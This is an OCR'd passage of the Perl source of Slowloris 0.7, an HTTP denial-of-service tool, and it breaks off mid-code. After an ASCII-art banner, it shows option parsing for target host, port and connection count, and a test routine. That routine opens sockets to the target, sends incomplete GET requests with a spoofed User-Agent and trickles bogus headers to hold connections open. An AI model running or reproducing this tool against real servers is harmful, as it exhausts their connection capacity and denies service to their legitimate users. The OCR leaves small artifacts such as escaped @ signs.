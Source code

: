 CCCCCCCCCCCCCCOO88\@\@888888OOOOOOOOOO8888888O88888888O8O8OOO8888\@88\@\@8OOCOOOCoc:: CCCCooooooCCCO88\@\@8\@88\@888OOOOOOO88888888888OOOOOOOOOOCCCCCOOOO888\@8888OOOCc:::: CooCoCoooCCCO8\@88\@8888888OOO888888888888888888OOOOCCCooooooooCCOOO8888888Cocooc: ooooooCoCCC88\@88888\@888OO8888888888888888O8O8888OOCCCooooccccccCOOOO88\@888OCoccc ooooCCOO8O888888888\@88O8OO88888OO888O8888OOOO88888OCocoococ::ccooCOO8O888888Cooo oCCCCCCO8OOOCCCOO88\@88OOOOOO8888O888OOOOOCOO88888O8OOOCooCocc:::coCOOO888888OOCC oCCCCCOOO88OCooCO88\@8OOOOOO88O888888OOCCCCoCOOO8888OOOOOOOCoc::::coCOOOO888O88OC oCCCCOO88OOCCCCOO8\@\@8OOCOOOOO8888888OoocccccoCO8O8OO88OOOOOCc.:ccooCCOOOO88888OO CCCOOOO88OOCCOOO8\@888OOCCoooCOO8888Ooc::...::coOO88888O888OOo:cocooCCCCOOOOOO88O CCCOO88888OOCOO8\@\@888OCcc:::cCOO888Oc..... ....cCOOOOOOOOOOOc.:cooooCCCOOOOOOOOO OOOOOO88888OOOO8\@8\@8Ooc:.:...cOO8O88c.      .  .coOOO888OOOOCoooooccoCOOOOOCOOOO OOOOO888\@8\@88888888Oo:. .  ...cO888Oc..          :oOOOOOOOOOCCoocooCoCoCOOOOOOOO COOO888\@88888888888Oo:.       .O8888C:  .oCOo.  ...cCCCOOOoooooocccooooooooCCCOO CCCCOO888888O888888Oo. .o8Oo. .cO88Oo:       :. .:..ccoCCCooCooccooccccoooooCCCC coooCCO8\@88OO8O888Oo:::... ..  :cO8Oc. . .....  :.  .:ccCoooooccoooocccccooooCCC :ccooooCO888OOOO8OOc..:...::. .co8\@8Coc::..  ....  ..:cooCooooccccc::::ccooCCooC .:::coocccoO8OOOOOOC:..::....coCO8\@8OOCCOc:...  ....:ccoooocccc:::::::::cooooooC ....::::ccccoCCOOOOOCc......:oCO8\@8\@88OCCCoccccc::c::.:oCcc:::cccc:..::::coooooo .......::::::::cCCCCCCoocc:cO888\@8888OOOOCOOOCoocc::.:cocc::cc:::...:::coocccccc ...........:::..:coCCCCCCCO88OOOO8OOOCCooCCCooccc::::ccc::::::.......:ccocccc:co .............::....:oCCoooooCOOCCOCCCoccococc:::::coc::::....... ...:::cccc:cooo  ..... ............. .coocoooCCoco:::ccccccc:::ccc::..........  ....:::cc::::coC    .  . ...    .... ..  .:cccoCooc:..  ::cccc:::c:.. ......... ......::::c:cccco   .  .. ... ..    .. ..   ..:...:cooc::cccccc:.....  .........  .....:::::ccoocc        .   .         .. ..::cccc:.::ccoocc:. ........... ..  . ..:::.:::::::ccco  Welcome to Slowloris - the low bandwidth, yet greedy and poisonous HTTP client EOTEXT  my ( $host, $port, $sendhost, $shost, $test, $version, $timeout, $connections ); my ( $cache, $httpready, $method, $ssl, $rand, $tcpto ); my $result = GetOptions(     'shost=s'   => \$shost,     'dns=s'     => \$host,     'httpready' => \$httpready,     'num=i'     => \$connections,     'cache'     => \$cache,     'port=i'    => \$port,     'https'     => \$ssl,     'tcpto=i'   => \$tcpto,     'test'      => \$test,     'timeout=i' => \$timeout,     'version'   => \$version, );  if ($version) {     print "Version 0.7\n";     exit; }  unless ($host) {     print "Usage:\n\n\tperl $0 -dns [www.example.com] -options\n";     print "\n\tType 'perldoc $0' for help with options.\n\n";     exit; }  unless ($port) {     $port = 80;     print "Defaulting to port 80.\n"; }  unless ($tcpto) {     $tcpto = 5;     print "Defaulting to a 5 second tcp connection timeout.\n"; }  unless ($test) {     unless ($timeout) {         $timeout = 100;         print "Defaulting to a 100 second re-try timeout.\n";     }     unless ($connections) {         $connections = 1000;         print "Defaulting to 1000 connections.\n";     } }  my $usemultithreading = 0; if ( $Config{usethreads} ) {     print "Multithreading enabled.\n";     $usemultithreading = 1;     use threads;     use threads::shared; } else {     print "No multithreading capabilites found!\n";     print "Slowloris will be slower than normal as a result.\n"; }  my $packetcount : shared     = 0; my $failed : shared          = 0; my $connectioncount : shared = 0;  srand() if ($cache);  if ($shost) {     $sendhost = $shost; } else {     $sendhost = $host; } if ($httpready) {     $method = "POST"; } else {     $method = "GET"; }  if ($test) {     my @times = ( "2", "30", "90", "240", "500" );     my $totaltime = 0;     foreach (@times) {         $totaltime = $totaltime + $_;     }     $totaltime = $totaltime / 60;     print "This test could take up to $totaltime minutes.\n";      my $delay   = 0;     my $working = 0;     my $sock;      if ($ssl) {         if (             $sock = new IO::Socket::SSL(                 PeerAddr => "$host",                 PeerPort => "$port",                 Timeout  => "$tcpto",                 Proto    => "tcp",             )           )         {             $working = 1;         }     }     else {         if (             $sock = new IO::Socket::INET(                 PeerAddr => "$host",                 PeerPort => "$port",                 Timeout  => "$tcpto",                 Proto    => "tcp",             )           )         {             $working = 1;         }     }     if ($working) {         if ($cache) {             $rand = "?" . int( rand(99999999999999) );         }         else {             $rand = "";         }         my $primarypayload =             "GET /$rand HTTP/1.1\r\n"           . "Host: $sendhost\r\n"           . "User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.503l3; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; MSOffice 12)\r\n"           . "Content-Length: 42\r\n";         if ( print $sock $primarypayload ) {             print "Connection successful, now comes the waiting game...\n";         }         else {             print "That's odd - I connected but couldn't send the data to $host:$port.\n";             print "Is something wrong?\nDying.\n";             exit;         }     }     else {         print "Uhm... I can't connect to $host:$port.\n";         print "Is something wrong?\nDying.\n";         exit;     }     for ( my $i = 0 ; $i &lt;= $#times ; $i++ ) {         print "Trying a $times[$i] second delay: \n";         sleep( $times[$i] );         if ( print $sock "X-a: b\r\n" ) {             print "\tWorked.\n";             $delay = $times[$i];         }         else